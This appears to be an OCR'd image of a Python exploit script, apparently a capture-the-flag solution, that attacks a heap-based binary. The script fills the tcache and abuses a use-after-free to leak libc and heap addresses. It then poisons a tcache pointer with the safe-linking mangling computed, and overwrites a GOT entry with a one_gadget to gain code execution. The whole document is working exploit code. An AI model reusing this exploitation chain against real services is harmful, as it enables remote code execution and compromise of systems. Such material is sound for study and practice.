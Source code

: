 ```python
    conn = start()
    g = cyclic_gen(n=8)

    # Prepare first victim of main bug
    name = g.get(len(SUPPORT_NAME))
    add(conn, name)
    remove(conn, name)
    add(conn, name)
    message(conn, name, g.get(0xA0))

    # Fill up tcache
    names = []
    for _ in range(9):
        names.append(g.get(0xA0))
        add(conn, names[-1])
    for i in range(9):
        remove(conn, names[i])
    for i in range(9):
        add(conn, names[i])
    for i in range(8):
        remove(conn, names[i], report=g.get(1))

    # Now use first victim to read libc and heap address
    leak = remove(conn, name, yon=b"no", report=SUPPORT_NAME)
    heap_leak, libc_leak = u64(leak[:8]), u64(leak[8:])
    libc.address = libc_leak - 0x21ACE0
    exe.heap_base = heap_leak - 0x14A20
    print("LIBC LEAK", hex(libc_leak))
    print("HEAP LEAK", hex(heap_leak))
    print("LIBC BASE", hex(libc.address))
    print("HEAP BASE", hex(exe.heap_base))

    # Prepare second victim
    name = g.get(len(SUPPORT_NAME))
    add(conn, name)
    remove(conn, name)
    add(conn, name)

    # Make sure the 0x40 tcache is non-empty
    tcache_fill = g.get(0x40)
    add(conn, tcache_fill)
    remove(conn, tcache_fill)
    add(conn, tcache_fill)

    message(conn, name, g.get(0x40))
    remove(conn, tcache_fill, report=g.get(0x1))

    pos = exe.heap_base + 0x13710  # Address of the chunk who's fd pointer we're corrupting
    remove(
        conn,
        name,
        yon=b"yes",
        report=SUPPORT_NAME,
        message=fit(protect_ptr(pos, libc.address + 0x21A090), length=0x40),
    )

    # Overwrite GOT address with one gadget. Then trigger a free() abort.
    one_gadget = libc.address + 0xEBD38
    add(conn, fit({0x8: one_gadget}, length=0x40))
    add(conn, g.get(0x40))
    list_entries(conn)

    return conn
```